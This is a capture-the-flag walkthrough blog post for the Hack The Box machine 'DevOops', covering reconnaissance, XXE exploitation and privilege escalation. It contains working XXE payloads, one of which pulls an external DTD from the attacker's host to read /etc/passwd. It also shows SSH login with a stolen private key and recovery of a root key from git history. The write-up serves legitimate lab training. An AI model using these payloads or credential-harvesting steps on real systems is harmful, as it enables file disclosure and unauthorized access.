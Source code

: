 ```yaml
---
layout: post
title: "HTB-Dev0ops"
categories: HTB-Walkthrough
---
```


![dev0ops1](/assets/img/dev0ops/dev0ops1.png)

DevOops is another 'more challenging' than OSCP boxes from TJNull's list.


nmap first.

<h3>Nmap</h3>

```
nmap -sV -Pn --min-rate 10000 -p- 10.10.10.91 |tee -a devoops.txt
```

```

Nmap scan report for 10.10.10.91
Host is up (0.11s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 19.7.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

```

<hr width="250" size="6">


![port5000](/assets/img/dev0ops/devoops-5000.png)


<h3>Gobuster</h3>

```
gobuster dir -u http://10.10.10.91:5000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.py,.txt,.asp,.aspx,.sh
```

<hr width="250" size="6">


`/feed` seems to show a png with info about aws.

![feed](/assets/img/dev0ops/devoops-feed.png)

<hr width="250" size="6">

`/upload` may be a possible vector of attack.

![upload](/assets/img/dev0ops/devoops-upload.png)


I make a test.xml file to upload, to see if it will work.

```xml

<note>
<Author>sh1n0bi</Author>
<Subject>testes</Subject>
<Content>testes...testes...1...2...3???</Content>
</note>

```


The result is reflected on the webpage.
![xml-upload](/assets/img/dev0ops/devoops-xml-upload.png)


<hr width="250" size="6">


make evil.xml:

```

<!--?xml version="1.0" ?-->
<!DOCTYPE convert [ <!ENTITY % remote SYSTEM "http://10.10.14.24/1.dtd">%remote;%int;%trick;]>
<note>
<Author>&b;</Author>
<Subject>sh1n</Subject>  
<Content>Reminder</Content>
</note>

```

This will call 1.dtd from Kali through the python webserver
```
python3 -m http.server 80
```

contents of 1.dtd:


```
<p class="p1"><!ENTITY b SYSTEM "file:///etc/passwd" ></p>
```

`500 server error....didnt work....`


Create mal.xml, this one doesn't require 1.dtd

```xml

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
        <Author>foo</Author>
        <Subject>HTB</Subject>
        <Content>&xxe;</Content>
</creds>

```

The result was not entirely what was expected:

![malxml](/assets/img/dev0ops/devoops-malxml-out.png)



<hr width="250" size="6">

We've ended up with a private id_rsa key, likely for user `roosa` mentioned in the filepath.

Copy its contents as `rsa_key`

```
chmod 600 rsa_key
```

Then try to ssh into the target as roosa.

```
ssh -i rsa_key roosa@10.10.10.91
```

It works! we now have roosa's shell...and the user flag.

![ssh-roosa](/assets/img/dev0ops/devoops-ssh-roosa.png)

```
roosa@gitter:~$ cat user.txt
c5xxxxxxxxxxxxxxxxxxxxxxxxxxxx7b
roosa@gitter:~$ 
```


<h3>Privilege Escalation</h3>



The `.bash_history` is readable


```

roosa@gitter:~$ cat .bash_history
ssh-keygen --help
ssh-keygen 
ls -altr .ssh/
cat .ssh/id_rsa.pub 
nano /etc/host
nano /etc/hostname 
sudo nano /etc/hostname 
exit
nano .ssh/id_rsa.pub 
exit
ssh git@localhost
exit
ssh git@localhost
clear
apt-get upgrade
exit
ls -altr
mkdir work
cd work
mkdir blogfeed
git init
git add .
git commit -m 'initial commit'
git config --global user.email "roosa@solita.fi"
git config --global user.name "Roosa Hakkerson"
git commit -m 'initial commit'
nano README-MD
nano README-md
nano README.md
git add README.md 
git commit -m 'initial commit'
git remote add origin git@localhost:/srv/git/blogfeed.git
git push origin master
exit
ps -Af
kill 27499
exit
sudo su -
exit
groups
exit
git push origin master
cd work/blogfeed/
git push origin master
cd ..
cd blogfeed/
cd ..
git add README.md 
git commit -m 'Initial commit'
git push
git log 
ls 
nano integration/auth_credentials.key/
ls -altr
chmod go-rwx authcredentials.key 
ls -atlr
cd ..
ls -altr
chmod -R o-rwx .
ls -altr
ls resources/
ls resources/integration/
ls -altr resources/
ls -altr resources/integration/
rm -Rf resources/integration/auth_credentials.key
mv resources/authcredentials.key resources/integration/
git add resources/integration/authcredentials.key 
git commit -m 'add key for feed integration from tnerprise backend'
ls -altr resources/integration/
git push
ssh-keygen
ös -altr
ls .altr
ls -altr
cat kak
cp kak resources/integration/authcredentials.key 
git add resources/integration/authcredentials.key 
git commit -m 'reverted accidental commit with proper key'
git push
ls -altr
rm kak
rm kak.pub 
git log

<--snip-->

```

Besides running the gunicorn.sh file (which runs the webservice), the user seems to work
a lot with `git`.

There's a `work` folder in the user's home directory, and another inside called `blogfeed`.

It also seems that the user generated new authentication keys.


`cd work/blogfeed`


```
git log -p
```

The log is long, and reveals another private ssh key.

![gitkey](/assets/img/dev0ops/devoops-gitlog-revertedkey.png)



My experience of git is very limited, but it looks like the key with each line preceeded with a minus (-)
is being replaced with that whose lines start with pluses (+)

It also helps that my terminal has the outgoing as coloured red and the incomming as green.



I copypaste the green key to Kali, and remove the `+` in each line...

I follow the same proceedure as before...saving the file this time as `rkey`

```
chmod 600 rkey
```

use it to login via ssh as root:


```
ssh -i rkey root@10.10.10.91
```

![rootssh](/assets/img/dev0ops/devoops-rootssh.png)


Getting the root flag is a simple formality from here.


<hr width="250" size="6">

:)




